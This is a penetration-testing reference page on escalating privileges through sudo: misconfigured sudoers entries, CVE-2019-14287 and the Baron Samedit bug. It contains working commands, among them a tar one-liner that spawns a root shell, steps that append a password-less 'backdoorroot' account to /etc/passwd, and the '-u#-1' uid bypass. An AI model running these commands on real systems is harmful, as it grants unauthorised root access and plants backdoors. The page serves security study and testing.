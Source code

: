 # 🛠️ SUDO

{% hint style="danger" %}
**This is a work-in-progress**. It's indicated with the 🛠️ emoji in the page name or in the category name
{% endhint %}

## Theory

`sudo` \(Super User DO\) is a program for UNIX-like computer operating systems that allows users to run programs with the security privileges of another user \(by default, the superuser\).

Unlike the similar command `su`, users must, by default, supply their own password for authentication, rather than the password of the target user. After authentication, and if the configuration file, which is typically located at `/etc/sudoers`, permits the user access, the system invokes the requested command with the target user's privileges.

Sudo users are called sudoers \( 😯_I know right_🧠 \). What sudoers are allowed to do is defined in the `/etc/sudoers` configuration file. This file, owned by `root`, is supposed to be 440 \(read-only\) and should only be edited with `visudo`, `sudoedit` or `sudo -e`.

![](../../../.gitbook/assets/sudoers_config.png)

## Practice

There are many ways to escalate privileges by exploiting `sudo`, either by profiting from insecure misconfiguration, or by exploiting the program's vulnerabilities.

### Configuration

#### Default permissions

The `sudo -l` command can be run by sudoers to check their sudo rights. The output reflects the `/etc/sudoers` configuration that applies to the user. It should like the following \(default config for a new sudoer\).

```bash
# Format is
User johnthesudoer may run the following commands on johncomputer:
    (ALL : ALL) ALL
```

For instance, this configuration allows the `johnthesudoer` user to run any privileged command as long as `johnthesudoer`'s password is known. A privileged session can be obtained with `sudo -i`, `sudo -s`, `sudo su` or `sudo <program>`.

#### Living off the land

While, the configuration can be hardened to restrict privileged execution to specific program, there are some that can be abused to bypass local security restrictions. This is called [Living off the land](living-off-the-land.md).

```bash
User johnthesudoer may run the following commands on johncomputer:
    (ALL : ALL) /bin/tar
```

The configuration above only allows sudoer `johnthesudoer` to execute `/bin/tar` as root as long as `johnthesudoer`'s password is known. The thing is tar is program that can be used to obtain a full session, hence bypassing the restrictions induced by sudoers configuration.

```bash
sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Other examples can be found on the [Living off the land](living-off-the-land.md) note.

#### Escalation tricks

While some programs can be used to obtain a full shell, others can be used to induce changes on the system to grant root privileges, like `/usr/bin/cp`. The following commands are used to edit the `/etc/passwd` file to add a password-less user with `root`'s uid and gid.

```bash
cp /etc/passwd /tmp/passwd.bak
echo "backdoorroot::0:0:Backdoor root:/root:/bin/bash" >> /tmp/passwd.bak
sudo /usr/bin/cp passwd.bak /etc/passwd
su -l backdoorroot
```

### Vulnerabilities

#### CVE-2019-14287

In Sudo before 1.8.28, an attacker with access to a Runas ALL sudoer account can bypass certain policy blacklists and session PAM modules by invoking sudo with a crafted user ID. For example, this allows bypass of !root configuration, and USER= logging, for a `sudo -u \#$((0xffffffff))` command.

Exploiting the bug requires that the user have sudo privileges that allow them to run commands with an arbitrary user ID. Typically, this means that the user's sudoers entry has the special value ALL in the Runas specifier. Sudo supports running a command with a user-specified user name or user ID, if permitted by the sudoers policy.

Sudo uses the `setresuid(2)` and `setreuid(2)` system calls to change the user ID before running the command. So if you try to enter a negative user id `-1` (or its unsigned equivalent `4294967295`), `setresuid(2)` and `setreuid(2)` cannot set a negative user id and you're left with the user id sudo is running with : `0`.

Therefore `sudo -u#-1 id -u` or `sudo -u#4294967295 id -u` will actually return `uid=0` and run command as root.


**Additional References** :

 - https://nvd.nist.gov/vuln/detail/CVE-2019-14287

#### CVE-2021-3156 - Heap-Based Buffer Overflow in Sudo (Baron Samedit)

Sudo before 1.9.5p2 has a Heap-based Buffer Overflow, allowing privilege escalation to root via "sudoedit -s" and a command-line argument that ends with a single backslash character. To test if a system is vulnerable or not, login to the system as a non-root user and run command `sudoedit -s /`. 

 - If the system is patched, it will respond with an error that starts with `usage:` such as :

```
usage: sudoedit [-AknS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p prompt] [-T timeout] [-u user] file ...
```

 - If the system is vulnerable, it will respond with an error that starts with `sudoedit:` such as :

```
$ sudoedit -s /
[sudo] password for user: 
sudoedit: /: not a regular file
```

To exploit a vulnerable system, you can use this exploit : https://github.com/r4j0x00/exploits/tree/master/CVE-2021-3156_one_shot

**Additional References** :

 - Original Advisory : https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit
 - https://nvd.nist.gov/vuln/detail/CVE-2021-3156

## References

{% embed url="https://gtfobins.github.io/\#+sudo" caption="" %}

